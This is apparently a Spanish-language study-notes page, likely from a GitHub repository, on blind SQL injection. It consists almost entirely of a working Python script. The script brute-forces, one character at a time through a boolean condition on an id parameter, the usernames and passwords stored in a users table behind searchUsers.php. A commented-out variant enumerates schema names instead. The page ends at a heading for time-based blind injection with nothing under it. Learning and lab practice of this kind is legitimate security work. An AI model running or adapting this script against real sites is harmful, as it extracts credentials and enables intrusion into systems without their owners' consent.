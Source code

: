 ## Inyecciones sin ver el error en el Output 'Blind'

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 9 es un valor que no existe en la web
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)
#           sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)
            p1.status(sqli_url)
            r = requests.get(sqli_url)
            if r.status_code == 200:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()

```

## SQL BLIND Time
